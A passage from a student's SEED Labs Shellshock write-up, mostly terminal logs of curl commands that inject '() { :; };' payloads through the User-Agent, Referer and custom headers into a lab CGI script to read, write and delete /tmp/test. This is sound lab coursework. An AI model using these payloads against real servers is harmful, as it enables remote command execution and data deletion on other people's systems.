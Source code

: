 ```
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55702
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
this is a test
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo; /bin/rm /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo "this is a test" > /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
... (same as above so I am skipping it)
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
this is a test
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo; /bin/rm /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -H temp:'() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -H temp:'() { :; }; echo "this is a test" > /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
....
[02/16/21]seed@VM:~/.../image_www$ curl -H temp:'() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
this is a test
```
1. Creating this one was very different. First, I tried using touch, which means I have to go find the file to display it. Then to make thing more clearer, I decided to add some text to it; thus, I used echo "some string" > /tmp/somelocation. Finally I would display the information from the idea I practiced on task 3.1, /bin/cat.
2. Again, I used all three options and the answer seems right. In fact, I even did rm, next part in here and the solution looks correct as well.
3. My attack was successful, I was able to store something in those test file in the tmp folder. The only thing that surprised me was echo "string" > location. Although I have seen this before, it just did not pop into my head until some further digging.


#### Task 3.4:
For this task, I am trying to delete the file inside /tmp folder, that I named test:
```
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
this is a test
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo; /bin/rm /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../image_www$ curl -A '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
... added the string back Again
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
this is a test
[02/16/21]seed@VM:~/.../image_www$ curl -e '() { :; }; echo; /bin/rm /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```